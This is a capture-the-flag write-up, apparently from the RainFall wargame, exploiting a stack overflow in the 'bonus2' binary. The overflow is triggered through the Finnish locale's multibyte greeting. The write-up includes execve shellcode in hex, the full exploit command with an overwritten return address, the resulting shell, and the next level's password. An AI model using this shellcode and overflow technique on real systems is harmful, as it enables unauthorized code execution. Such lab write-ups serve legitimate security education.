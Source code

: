 # Bonus 2

Basically, the program want 2 arguments then prints "Hello <first argument>":

```bash
bonus2@RainFall:~$ ./bonus2 Aris Patala
Hello Aris
```

It takes the first 40 characters of the first arg and the first 32 characters of the second arg.
Knowing this we can try to put the maximum characters possible just to try.

```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("0" * 40)') $(python -c 'print("A" * 32)')
Hello 0000000000000000000000000000000000000000AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
bonus2@RainFall:~$ dmesg
[54393.877399] bonus2[13245]: segfault at 8004141 ip 08004141 sp bffff550 error 14 in bonus2[8048000+1000]
```

Quickly, we can see that we've managed to overflow on the return address,
but it looks like it wasn't enough as it only copied 3 bytes.
The two trailing `A`s and the `\x00` from the end of the string.
This is not very usefull because there is nowhere we want to return
in the range of address `0x08000000` to `0x0800ffff`

There is another feature of the program though,
if we change the LANG environement variable to `"nl"` or `"fi"`, it changes the output.

```bash
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ ./bonus2 Finnish language
Hyvää päivää Finnish
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ ./bonus2 Dutch language
Goedemiddag! Dutch
```
Is this somewhat exploitable? Yes.
The code counts each characters of `Hyvää päivää` as a one-byte char.
However this is not the case as `ä` takes 2 bytes.
This means that we will overflow EVEN MORE than before,
so we should be able to overwrite the whole address.

```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("0" * 40)') aaaabbbbccccddddeeeeffffgggghhhh
Hyvää päivää 0000000000000000000000000000000000000000aaaabbbbccccddddeeeeffffgggghhhh
Segmentation fault (core dumped)
[56193.264606] bonus2[13260]: segfault at 66666565 ip 66666565 sp bffff550 error 14
```

Nice, we see that we now have full control over the address.
Now we can use the same trick as in bonus0 to have a shellcode on the arguments,
and then point to the shellcode to redirect execution.

```bash
bonus2@RainFall:~$ export SHELLCODE=$(python -c 'print("\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
bonus2@RainFall:~$ ./bonus2 0000111122223333444455556666777788889999 000011112222333344`echo -ne "\x92\xf8\xff\xbf"`55666677778
8889999
Hyvää päivää 0000111122223333444455556666777788889999000011112222333344����5566667777
$ whoami
bonus3
$ cd ../bonus3
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## .pass: 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587